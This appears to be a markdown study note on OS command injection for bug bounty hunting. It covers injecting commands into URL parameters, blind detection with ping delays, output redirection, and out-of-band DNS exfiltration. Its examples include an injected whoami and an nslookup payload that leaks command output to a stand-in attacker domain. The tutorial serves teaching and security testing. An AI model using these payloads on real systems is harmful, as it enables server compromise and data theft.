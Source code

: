 ## OS command injection: 

OS command injection is a web security vulnrablity in which an attacker is able to 
execute arbitrary OS commands on the server and let's say is able to fully compromise 
the entire web application server.

## Executing arbitrary commands:

Suppose, you visited a website and tried to view that any product is in stock or not!

> url for that task will be: https://insecure-website.com/stockStatus?productID=381&storeID=29

on backend a shell command gets executed for the above url something like this: 
---
> stockreport.pl 381 29 : this echoes the latest stock report from the backend

there is no defense so you can inject a simple os command injection here: 

> i.e: productID=381&whoami&storeID=2

## How mail services are used by the websites: 
now a days websites uses mail-services to get the feedback from their customers.
for that the mail-service run a command in the backend to recieve the email from customers: 

> i.e: $ mail -s 'this is the body of mail in string' -aFrom:user@email.com feedback@email.com

the above case in intresting because there is no output is getting back from this service 
so our silly os commands won't work here.

### how to detect blind os command injections: 
any command which will eventually trigger time delay will work here 

for example : ping command which sends `ICMP` packets to the web server

> i.e:  ping -c 10 127.0.0.1  : here flag(-c) means stop after

the above command will make the vulnrable web application ping its loopback address for 10 seconds.

but this won't give you any bounty and your report will be rejected with a comment 
`this bug is lacking any bussiness impact please make a POC with an impact`

#Exploiting blind OS command injection by redirecting output:
as we know that blind injection can't give you any output 
but we can save it somewhere on the web server and make it retrive later

> i.e: whoami > /somewhere/on/the/webserver/whoami.txt



## fun part beings here: aka out of band interaction-

> i.e : nslookup attacker-website.net 

`the command nslookup will trigger a DNS interaction to the attacker controlled webserver`


## the most advance and hard part is out of band data exfiltration:
```
a little shell command knowledge: what is the use of backtick in shell?

   $ sudo chown `id -u` /somedir

The backtick `…` is actually called command substitution. 
The purpose of command substitution is to evaluate the command which is 
placed inside the backtick and provide its result as an argument to the actual command.

The command substitution can be done in two ways one is using $(…) and the other is `…`. 
Both work same, but the $(…) form is the modern way and has more clarity and readability.
```

so if you triggered any DNS interaction then the step 2 will be data exfiltration:
for that use command someting like 

> i.e: ||nslookup `whoami`.attackerwebsite.com||
